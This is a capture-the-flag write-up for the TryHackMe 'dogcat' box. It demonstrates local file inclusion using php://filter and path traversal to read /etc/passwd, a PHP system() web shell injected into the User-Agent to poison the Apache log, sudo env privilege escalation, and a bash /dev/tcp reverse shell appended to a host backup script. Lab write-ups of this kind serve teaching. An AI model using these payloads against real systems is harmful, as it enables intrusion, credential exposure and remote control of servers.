










# Dogcat

Dogcat is a [medium-rated box on TryHackme](https://tryhackme.com/room/dogcat) which involves an LFI and poisoning the User-Agent to get RCE.

## Recon

As always, let's start out with a simple Nmap scan:
```
wiz@skua:~/ctf/thm/dogcat$ nmap -sC -sV -Pn --top-ports 1000 -o inital.nmap 10.10.94.19
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-27 13:30 CEST
Nmap scan report for 10.10.94.19
Host is up (0.069s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```

From this basic scan we can see that port 80 is open. While running a full portscan in the background, we can have a look at the website.



The first thing I usually do is check if the site is running HTML, PHP, or something else. We can find this out by requesting the URL with either *index.html* or *index.php*. In this case, we can verify that it is a PHP page.

We have two options to choose from, "A dog" and "A Cat". Clicking on these gives us a random picture of a dog or a cat, depending on which you clicked. This in itself isn't necessarily interesting to us, but here we can see in the URL that the chosen option gets added sent as a GET parameter.

```HTTP
http://<ip>/?view=dog
```

In the context of a view, our first suspicion should be if the request is including another files response inside index.php. We can also assume that it appends a .php extension, as the original http request does not contain it.
```PHP
include $_GET['view'] . "php";
```
We can test this suspicion by requesting the File added in the view directly from the URL.
```HTTP
http://<ip>/dog.php
```
As suspected, it returns a picture on an otherwise blank page. From here we can try some LFI.

# LFI

Because at the moment we have to assume that the code appends .php to every request we make in the view, we can "only" get the source of the current pages. These files are *index.php*, *dog.php* and *cat.php*. Because these would all be interpreted when we include them, we have to convert them into some other format. We'll use the php filter functionality to convert the code into Base64. The site also prevents us from putting something in the view without the keywords "dog" or "cat", which is why we have to change our path accordingly:
```HTTP
http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../index
```
This returns a base64 encoded string of the sourcecode of *index.php*. 



Decoding it results in this code:

```PHP
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Here we can see that our suspicions were partially correct, in that the other view gets included into the page. But the crucial part is that the user can set the extension in a GET request, which we previously did not know. This means we can now open other files than php by setting that parameter to nothing.

```HTTP
http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../../../../../../etc/passwd&ext=
```

This returns us another base64 decoded string, this time from /etc/passwd as verification that we can view other files:




# RCE

With this knowledge, we can possibly leverage our LFI into an RCE by adding PHP code in places where there shouldn't normally be any, as the include statement interprets it as PHP without needing the extension. We can try this here by adding some PHP code in the User-Agent of our request and including the webserver log. We can view the Webserver log via the same LFI.



Now it's just a question of adding a payload in the User-Agent. We'll just add a simple GET to system parameter for now, although you could also upload a complete shell at this point.

```HTTP
GET /?view=./dog../../../../../../var/log/apache2/access.log&ext= HTTP/1.1
Host: 10.10.38.198
User-Agent: <?php system($_GET['wiz']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

From here we can simply make another request to the same URL with a command for the parameter we previously set...



...and get RCE! I used the php oneliner from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), just remember to URLEncode before you send it off.



From here you will find a flag.php, where the first flag is placed. The second flag will be one folder up, in /var/www .

# Privesc

Once we have the shell, we of course want to privesc. To start our enumeration, we do a simple sudo -l:



We can see that we can execute */usr/bin/env* as sudo. A quick peek at [GTFObins](https://gtfobins.github.io/) will show us a way to privesc.



# Container Escape

Although we rooted the box, there still seems to be a fourth flag. By running linpeas we can find some unusual scripts in */opt/backups*.



Here we can see that we are actually inside a container. The container escape doesn't seem to be hard though, as this looks like a shared folder between the Host and the Container, where the Host runs this script to get a backup. We can simply append a bash reverse shell at the end of the file and escalate to the host machine.

`echo "bash -i >& /dev/tcp/10.9.19.202/6510 0>&1" >> backup.sh`

The fourth flag is in */root* of the Host.

